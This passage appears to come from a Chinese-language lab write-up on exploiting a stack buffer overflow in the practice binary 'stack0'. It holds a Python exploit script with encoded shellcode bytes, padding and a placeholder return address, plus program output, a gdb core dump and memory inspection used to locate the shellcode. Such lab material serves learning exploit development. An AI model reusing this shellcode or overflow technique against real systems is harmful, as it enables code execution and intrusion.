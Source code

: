 ```
buf += "\x6f\xa0\x93\xa7\xc1\x28\x4d\xc4\x82\xa8\x99\x5d\x6f"
buf += "\xbe\x05"
--------------------------end----------------------------

```

此时exploit.py如下：

```
---------------------exploit.py------------------------
#/usr/bin/python
import os
import sys

buf =  "bbbb"
buf += "\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\x53\xdd\xa7\x9c\xa2\x89\xbe"
buf += "\x05\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\x39\xf4\xff\x05\xc8\x8b\xe1\x6f\x52\x83\xa8\x99\xea"
buf += "\x1e\xec\xc2\x57\xf9\xa5\x9c\xaa\x27\xf6\x8c\xb5\xb7"
buf += "\xb7\xc6\xc8\xb8\xe6\x0a\x56\x84\xcd\xae\xfa\x86\xbb"
buf += "\x4d\xc5\xb7\x8c\xc4\xad\x8c\xee\x53\x0c\xb7\xae\xc4"
buf += "\x3b\x3f\xae\x4d\xda\x0b\xea\xad\x6b\xe3\x9c\x44\x09"
buf += "\x6f\xa0\x93\xa7\xc1\x28\x4d\xc4\x82\xa8\x99\x5d\x6f"
buf += "\xbe\x05"

jmp_esp="\xff\x48\x87\xa0"    #此处jmp_esp暂时不确定
#print jmp_esp
input="a"*80+jmp_esp+buf
print input
os.system("echo '%s' | ./stack0" % input)
-----------------------end-----------------------------

```

尝试通过shellcode前面加上标志"bbbb"找出shellcode在内存中的固定地址，其中上面jmp_esp的值为随意填写的一个

```
python exploit.py
--------------output:-----------------
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�H��bbbbH1����H���H�Sݧ����H1X'H-����9ȋR���W����'������
                              V�ͮ���Mŷ�ĭ�
                                        ��?�M   o����(MĂ��]o�
you have changed the 'modified' variable
Segmentation fault (core dumped)
----------------end-------------------

gdb -q -c core
---------------output:------------------
[New LWP 24384]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xa08748ff in ?? ()
-----------------end--------------------

x/10x $esp
----------output:-----------
0xffd26180:     0x62626262      0x48c93148      0xfff6e981      0x8d48ffff
0xffd26190:     0xffffef05      0x53bb48ff      0xa29ca7dd      0x4805be89
0xffd261a0:     0x2d485831      0xfffffff8
-----------end--------------

```
